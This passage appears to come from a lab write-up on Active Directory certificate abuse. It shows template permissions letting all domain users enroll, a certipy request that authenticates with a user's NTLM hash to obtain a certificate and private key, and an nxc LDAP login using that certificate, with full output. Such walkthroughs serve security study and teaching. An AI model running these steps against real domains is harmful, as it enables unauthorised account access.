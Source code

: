 ```
    Permissions
      Enrollment Permissions
        Enrollment Rights               : BACKWARD.RV\Domain Admins
                                          BACKWARD.RV\Domain Users
                                          BACKWARD.RV\Enterprise Admins
      Object Control Permissions
        Owner                           : BACKWARD.RV\Enterprise Admins
        Full Control Principals         : BACKWARD.RV\Domain Admins
                                          BACKWARD.RV\Enterprise Admins
        Write Owner Principals          : BACKWARD.RV\Domain Admins
                                          BACKWARD.RV\Enterprise Admins
        Write Dacl Principals           : BACKWARD.RV\Domain Admins
                                          BACKWARD.RV\Enterprise Admins
        Write Property Enroll           : BACKWARD.RV\Domain Admins
                                          BACKWARD.RV\Domain Users
                                          BACKWARD.RV\Enterprise Admins
    [+] User Enrollable Principals      : BACKWARD.RV\Domain Users

[...snip...]
```

By default, all domain users can enroll for this template. We can use `certipy` to request a certificate for the `iqbal.hassan` user:

```
~$ certipy req -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -ca 'BACKWARD-ENTERPRISE-CA' -template 'User'                     
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc02.backward.rv.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate with UPN 'iqbal.hassan@backward.rv'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'iqbal.hassan.pfx'
[*] Wrote certificate and private key to 'iqbal.hassan.pfx'
```

This `PFX` file contains both the certificate and the private key, which we can use to authenticate to services that support `PKI (Public Key Infrastructure)` authentication, such as `LDAP`:

```
~$ nxc ldap dc02.backward.rv -u 'iqbal.hassan' --pfx-cert iqbal.hassan.pfx -M whoami
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] backward.rv\iqbal.hassan:dfd368bc95bd217c04415fed81c8933e 
WHOAMI      10.5.10.12      389    DC02             Name: Iqbal Hassan
WHOAMI      10.5.10.12      389    DC02             sAMAccountName: iqbal.hassan
WHOAMI      10.5.10.12      389    DC02             Enabled: Yes
WHOAMI      10.5.10.12      389    DC02             Password Never Expires: No
WHOAMI      10.5.10.12      389    DC02             Last logon: 2025-09-08 15:18:05 UTC
WHOAMI      10.5.10.12      389    DC02             Password Last Set: 2025-08-28 19:17:07 UTC
WHOAMI      10.5.10.12      389    DC02             Bad Password Count: 0
WHOAMI      10.5.10.12      389    DC02             Distinguished Name: CN=Iqbal Hassan,CN=Users,DC=backward,DC=rv
WHOAMI      10.5.10.12      389    DC02             Member of: CN=CA-Test,CN=Users,DC=backward,DC=rv
WHOAMI      10.5.10.12      389    DC02             User SID: S-1-5-21-2163652167-2436585246-2491459670-1109
```
